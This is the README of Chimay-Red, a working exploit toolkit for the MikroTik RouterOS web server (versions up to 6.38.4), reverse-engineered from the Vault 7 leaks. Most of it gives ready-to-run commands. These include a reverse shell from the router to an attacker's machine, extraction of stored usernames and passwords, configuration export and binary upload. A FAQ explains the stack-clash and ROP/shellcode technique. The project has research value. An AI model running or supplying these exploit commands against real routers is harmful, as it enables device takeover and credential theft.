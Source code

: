 # Chimay-Red
Reverse engineering of Mikrotik exploit from Vault 7 CIA Leaks  

See the [PDF](docs/ChimayRed.pdf) for more info (not updated)  

# Vulnerable versions  
Until RouterOS 6.38.4  

What's new in 6.38.5 (2017-Mar-09 11:32):  
!) www - fixed http server vulnerability;

# Proof of concepts
## CrashPOC  
Simple crash sending -1 as content-length in post header 

## StackClashPOC  
Stack clash exploit using two threads, missing ROP chain

# Working exploits  
As the ROP is dynamically created, you have to extract the `www` binary from the RouterOS firmware.   
(It's placed in `/nova/bin/`)  
Check that the running version is the same.  
To simplify extraction you can use:
```
$ ./tools/getROSbin.py 6.38.4 x86 /nova/bin/www www_binary
```  

## StackClash_x86  
Stack clash exploit using two threads  with ROP chain to run bash commands  

### For a reverse shell:  
In a shell:  
```
$ nc -l -p 1234 
```  
In another shell:
```
$ ./StackClash_x86.py 192.168.8.1 80 www_binary "/bin/mknod /ram/f p; /bin/telnet 192.168.8.5 1234 < /ram/f | /bin/bash > /ram/f 2>&1"
```
Where:  
- RouterOS IP: 192.168.8.1  
- PC IP: 192.168.8.5  

### To extract users and passwords
```
$ ./StackClash_x86.py 192.168.8.1 80 www_binary "cp /rw/store/user.dat /ram/winbox.idx"
$ sleep 3 # (wait some seconds that www is restarted)
$ curl -s http://192.168.8.1/winbox/index | ./tools/extract_user.py -
```

### Export configs  
You can execute command in Mikrotik console with `/nova/bin/info`.  
Eg: `/nova/bin/info "/system reboot"` will reboot the system.  
```
$ ./StackClash_x86.py 192.168.8.1 80 www_binary "/nova/bin/info '/export' > /ram/winbox.idx"
$ sleep 20 # (it's a bit slow to execute /export command)
$ curl -s http://192.168.8.1/winbox/index
```

## StackClash_mips  
Stack clash exploit using two threads with ROP chain + shell code to run bash commands  
On mips version of www the stack is RWX, so we can jump to the stack.

You can run the same bash command as the x86 version.   

### LCD  
Funny command  
```
$ ./tools/getROSbin.py 6.38.4 mipsbe /nova/bin/www www_binary
$ ./StackClash_mips.py 192.168.8.1 80 www_binary "echo hello world > /dev/lcd"
```
![image](https://github.com/BigNerd95/Chimay-Red/raw/master/docs/screen_image.jpg)  

### Super Mario sound
Do not do it! ;-P
```
$ ./StackClash_mips.py 192.168.8.1 80 www_binary "while [ true ]; do /nova/bin/info ':beep frequency=660 length=100ms;:delay 150ms;:beep frequency=660 length=100ms;:delay 300ms;:beep frequency=660 length=100ms;:delay 300ms;:beep frequency=510 length=100ms;:delay 100ms;:beep frequency=660 length=100ms;:delay 300ms;:beep frequency=770 length=100ms;:delay 550ms;:beep frequency=380 length=100ms;:delay 575ms;:beep frequency=510 length=100ms;:delay 450ms;:beep frequency=380 length=100ms;:delay 400ms;:beep frequency=320 length=100ms;:delay 500ms;:beep frequency=440 length=100ms;:delay 300ms;:beep frequency=480 length=80ms;:delay 330ms;:beep frequency=450 length=100ms;:delay 150ms;:beep frequency=430 length=100ms;:delay 300ms;:beep frequency=380 length=100ms;:delay 200ms;:beep frequency=660 length=80ms;:delay 200ms;:beep frequency=760 length=50ms;:delay 150ms;:beep frequency=860 length=100ms;:delay 300ms;:beep frequency=700 length=80ms;:delay 150ms;:beep frequency=760 length=50ms;:delay 350ms;:beep frequency=660 length=80ms;:delay 300ms;:beep frequency=520 length=80ms;:delay 150ms;:beep frequency=580 length=80ms;:delay 150ms;:beep frequency=480 length=80ms;:delay 500ms;'; done"
```

### Upload binaries
To upload `busybox-mips` in `/ram/busybox`  
In a shell:
```
$ wget https://busybox.net/downloads/binaries/1.28.1-defconfig-multiarch/busybox-mips  
$ { echo "echo Uploading..."; hexdump -v -e '"echo -e -n " 1024/1 "\\\\x%02X" " >> /ram/busybox\n"' busybox-mips | sed -e "s/\\\\\\\\x  //g"; } | nc -l -q 0 -p 1234
```  
In another shell (note that this is the reverse shell command):
```
$ ./StackClash_mips.py 192.168.8.1 80 www_binary "/bin/mknod /ram/f p; /bin/telnet 192.168.8.5 1234 < /ram/f | /bin/bash > /ram/f"
```
and wait until the connection automatically close.  
(Once the file is uploaded, run again reverse shell (this time only listening with `nc -l -p 1234`) and you will find busybox inside `/ram/`)

# FAQ
#### Where does one get the chimay-red.py file, that this tool kit relies on?  
This is a reverse engineering of leaked CIA documentation.  
There is no chimay-red.py publicly available.  

#### I can't understand how the stack clash work.
I'll update the PDF as soon as I have enough time, anyway:  
We know that:  
- each thread has 128KB of stack  
- each stack of each thread is stacked on the top of the previous thread.  

Thanks to Content-Length and alloca macro we can control the Stack Pointer and where the post data will be written.  
If we send a Content-Length bigger than 128KB to socket of thread A, the Stack Pointer will point inside the stack of another thread (B) and so the POST data (of thread A) will be written inside the stack of thread B (in any position we want, we only need to adjust the Content-Length value).  
So now we can write a ROP chain in the stack of thread B starting from a position where a return address is saved.  
When we close the socket of thread B, the ROP chain will start because the function that is waiting for data will return (but on our modified address).

##### x86  

The ROP chain construct "system" string and "your_shell_cmd" string looking for chunks of strings inside the binary and concatenating them in an unused area of memory.  
Then we return to "dlsym" function (present in the PLT) passing as argument the address of just created string "system" to find the address of "system" function.   
Now we can return to the address of system passing as argument the address of the just created string "your_shell_cmd".  

##### mips
DEP is disabled on this version of www, so I can execute the stack.  
But I cannot use system function because "/bin/sh" is not present on the file system, so I used execve directly.  
A small ROP (3 gadgets) find the address of a location on the stack (where I put the shell code), and then jump to that address.  
In the shell code I populate an array of 4 pointers with the address of the strings "/bin/bash", "-c", "your_shell_cmd" using the leaked address of the stack (the last pointer is left NULL).  
Then I populate a0, a1, a2 with rispectively: address of "/bin/bash", address of the array populated at the preceeding step and the address of the NULL entry of the array.  
At this point I can launch the syscall 4011 (execve) to execute my bash command.  
